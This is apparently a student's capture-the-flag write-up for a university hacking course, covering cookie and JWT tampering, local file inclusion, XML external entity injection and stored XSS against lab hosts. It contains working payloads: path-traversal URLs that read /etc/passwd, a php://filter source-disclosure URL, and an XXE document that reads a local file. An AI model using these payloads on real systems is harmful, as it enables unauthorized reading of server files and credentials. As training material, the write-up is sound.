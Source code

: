 # Exercise 2 (Lecture 2)

Exercises using Haaukins for the Hacker space course in the spring semester 2024.

## Admin logon

**Challenge Description**: Menne company at menne.com is hiding things from all of its users. Can you login as admin and find out what they want to keep secret? It doesn’t seem to check anyone’s password.

### Challenge Solution
This was a simple cookie manipulation challenge, which was solved by chaning `{admin: False}` to `{admin: True}` in the cookie and reloading the site.

## JWT

**Challenge Description**: Visit jwt.com. What is that cookie after you have logged in? Have you ever heard of JWT?

### Challenge Solution
This challenge supplied a JWT, which had a simple secret set. In order to crack the secret, John the ripper was used. The secret was `challenge`. Using the JWT.com jwt parser to change the user to admin and resigning the cookie with the correct secret, this challenge was solved.

## Serilizator

**Challenge Description**: Visit serializator.com. Login as Admin to reach the goal!

### Challenge Solution

Revisit.

## Challenge: Exploracaõ

**Challenge Description**:  Mom, can we have geoguessr? No we have geoguessr at home: i3geo

### Challenge solution

Seemingly no exploit on the loging page or by manipulating the cookies. However a Local file inclusion (LFI). Where the attacker can print out arbitrary files on the filesystem using the URL. `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd` this URL will print the passwd file of the server. The page `http://exploracao.hkn/i3geo/flag.php` shows that the flag is only visible to admin user, so we either need to find the flag file or find the admin user credentials.

PHP code is evaluated and sends a rendered HTML file to the user if we try to get it through the URL with LFI. Therefore we are able to craft a URL `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=php://filter/convert.base64-encode/resource=../flag.php` which uses PHP filters to encode the file to base64 before returning the output to the browser. This way the PHP code is not excecuted. The very interesting part is the filters applied: `php://filter/convert.base64-encode/resource=../flag.php`. Pasting the result into cyberchef gives the original output:

```php
<?php
define("ONDEI3GEO", ".");
include "ms_configura.php";
include "./init/head.php";
?>

<body style="padding-top: 90px;" id="topo">
    <nav class="navbar navbar-default navbar-fixed-top">
        <div class="container-fluid">
            <div class="navbar-header">
                <button type="button" title="icon-bar" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only"></span> <span class="icon-bar"></span> <span class="icon-bar"></span> <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" onclick="$('.cartao').fadeIn(600);" href="./init/index.php">
                    <span class="material-icons md-18">home</span> <?php echo $mensagemInicia;?>
                </a>
            </div>
            <div id="navbar" class="navbar-collapse collapse navbar-responsive-collapse">

            </div>
        </div>
    </nav>

    <!-- FLAG -->
    <div class="container-fluid row center-block;" style="width:100%" id="conteudoPrincipal" tabindex="-1">
        <div class="row center-block text-center" style="max-width:1000px">
            <?php
            if ($_SESSION["usuario"] === "administrador") {
                echo "<h2>DDC{Static_Flag_redacted}</h2>";
            } else {
                echo "<h2>Flag is only visible to admin user</h2>";
            }
            ?>
        </div>
    </div>

    <div tabindex="-1" class="navbar-fixed-bottom container-fluid" style="background-color: #fff; margin-top: 10px; padding-top: 10px;">
        <div class="row text-center">
            <div class="col-lg-12 center-block">
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">
                    <img alt="Licen&ccedil;a Creative Commons" style="border-width: 0" src="https://i.creativecommons.org/l/GPL/2.0/88x62.png" />
                </a>
                <br />O i3Geo est&aacute; licenciado com uma Licen&ccedil;a
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">Creative Commons - Licen&ccedil;a P&uacute;blica
                    Geral GNU (&#34;GNU General Public License&#34;)</a>
            </div>
        </div>
    </div>
</body>
</html>
```

Giving us the flag in the if statement. Original flag redacted, as it is static.

## External entities

**Challenge Description**: If a JSON string looks this `{“login”:{“user”:“username”,“pass”:“password”}}`… Then what would the same string look like in XML? Use the XML format of the string as a request to a webserver at external.com. Manipulate it to print the flag.txt file located in the /home/ directory.

### Challenge Solution

This challenge is about XML External Entity injection. This kind of attack happens when an attacker has control over the XML which is parsed by a webserver, XML entities are variables in XML. The service on `external.com` uses a specific format of XML for logging in a user. The format is the XML equivalent of the JSON from the Challenge description: `<login><user>username</user><pass>password</pass></login>`. In reality this webserver just informs the user which username has been parsed in the `<user>` tag of the xml. This is seen in the respone: 

```html
<pre>You have logged in to the server as username</pre>
```
This means that we can use XML entities to write out the contents of the file system through this username attribute. The payload looks like this: 

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///home/flag.txt'> ]>
<login>
<user>hej&xxe;</user>
<pass>pass</pass>
</login>
```

Here the Document type definition is used to load the contents of the flag.txt into the `xxe` variable, and then this variable is supplied to the user tag, where it will be printed to the browser. The response will be:

```html
<pre>You have logged in to the server as hej
HKN{R2-Njh-o2JCW}
</pre>
```

And there the flag is located!

**Note:** Using curl, it is possible to parse a file as the data by using `-d @file-path` as a param.

## Sharing is caring

**Challenge Description**: Across the site `https://dogshare.com`, alot of delicious hotdogs has been shared. Maybe you can make the users visiting the site share a little extra?

### Challenge Solution

The website hosted on `https://dogshare.com` is a blog where users can share pictures of hotdogs. No user is supplied, yet even without one, it is possible to comment on the posts. This might be an XSS challenge. We are able to achieve stored XSS by posting a comment with the payload: `<img src='#' onerror= />`. It seems like some tags are sanitized and others are not, like the image tag.
